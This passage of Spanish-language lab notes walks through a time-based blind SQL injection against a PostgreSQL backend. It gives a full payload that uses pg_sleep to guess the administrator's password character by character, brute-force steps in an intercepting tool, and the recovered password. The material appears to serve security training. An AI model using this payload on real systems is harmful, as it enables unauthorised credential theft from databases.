 En este caso el tamaño de la contraseña es de 20

![](assets/2022-07-08-19-41-42.png)

## Vamos a ver ahora la contraseña
' || (SELECT CASE WHEN (username='administrator' and substring(password,1,1)='a')THEN pg_sleep(10) ELSE pg_sleep(-1) END from users)--;

Ponemos el segundo parametro de substring como un snifer hasta 20 y el caracter como un bruteforce de alfanumericos

Mostramos el tiempo de respuesta y ordenamos

Una vez ordenamos boton de la derecha add coment

Filtramos por solo comentados y ordenamos por posicion


![](assets/2022-07-09-19-50-50.png)
2wx2fjkx21cr5rsf3ge8

![](assets/2022-07-09-19-52-23.png)
